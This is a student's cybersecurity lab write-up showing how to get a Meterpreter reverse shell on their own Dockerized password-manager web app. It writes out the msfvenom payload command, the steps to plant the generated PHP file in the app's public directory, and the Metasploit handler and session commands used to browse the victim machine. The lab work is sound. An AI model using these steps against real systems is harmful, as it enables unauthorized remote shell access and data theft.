# Offensive Hacker Tools
**Riel Calilung | February 18, 2026**

## Introduction and Materials
In this lab, I’ll be looking at a different type of attack that can happen on our password manager app. Unlike the MITM attack, this attack will allow us to extract more than a username and password as we’ll be able to use and access the victim machine’s shell. For this lab, I’ll be using Metasploit and Docker.

## Steps to Reproduce
1. With the Docker app running, open up a new terminal window and enter, `docker run --rm -it -p 4444:4444 metasploitframework/metasploit-framework`



2. Now that we have a metasploit docker container running, we should test to see if we’re able to run code on our password manager app. In our password manager application files, navigate to webapp > public, then create the following script:



3. Run the password manager app and sign in. Then, change the browser link to **localhost/load.php**. (You may need to run `docker compose up –build`)



4. The results from the last step show that it is possible to run code on our web app, so we can proceed to make our payload. To do this, we’ll go back to our terminal with Metasploit and enter the command: `/usr/src/metasploit-framework/msfvenom -p php/meterpreter/reverse_tcp LHOST=<Your EXTERNAL IP address> LPORT=4444 -f raw`, setting the value of LHOST to be 172.17.0.2. By running the command, we get the following output.



5. Starting from “<?”, copy the entire output. Then, going back to our password manager application files, navigate to webapp > public, and create the file **reverse_tcp.php** and paste the output into the file.




6. Going back to our Metasploit terminal, enter the command `use php/meterpreter/reverse_tcp`. Then, enter the command `options`. Ensure that the options, LHOST and LPORT are set- which should be by default.



7. Next, run the command `exploit` to start the service.



8. Go back to our web application and login. From there, change the browser link to **localhost/reverse_tcp.php**. (You may need to run, `docker compose up —build` again)



9. Back on our Metasploit terminal, we can use the command `session -l`.



10. Using the command `sessions -i <ID>`and replacing `<ID>` with one of the ID values above, we can interact with the chosen session.



11. Using the command `ls` shows us what files and directories are in the victim’s machine. We can even `cd` into different directories to see what they contain.




## Analysis
1. Q: Name the vulnerability, exploit, payload, and target involved in this lab.

    A: The vulnerability used in this lab was the fact that code is run on the server without any checks or safeguards (especially after security settings such as Windows Defender were disabled). Thus, the exploit is taking advantage of said fact to make the server execute our payload via Reverse TCP. The payload is, php/meterpreter_reverse_tcp, which was generated by Msfvenom. The target in this lab is the victim’s machine that ran the password application app.

2. Q: What does the output of Msfvenom do and how does that play a role in the attack?

    A: Msfvenom provided us with our payload, which was the code responsible for the whole attack. When the payload was executed on the victim’s machine, it allowed us to receive incoming connections from it, which we then used to interact with the sessions and look at information.

3. Q: Why did we need to run a "handler" in Metasploit console for this attack to work?

    A: We needed to run a handler for the attack to work or else there wouldn’t be a connection between our computer as the attacker and the victim’s machine, which is what our attack relied on.

## Conclusion
This lab taught me more about the type of attacks that occur within cybersecurity- especially since the only attack I’ve done in class was the MITM lab. While both attacks are different from a technical standpoint, they share a core similarity in how both rely on direct communication with the victim. I thought this was interesting because we also rely on computers talking with other computers in order to do our everyday tasks, so it’s important to ensure that the connections between them are implemented securely and maintained. That being said, I’m curious about different types of attacks that don’t rely on a connection and how they’re structured.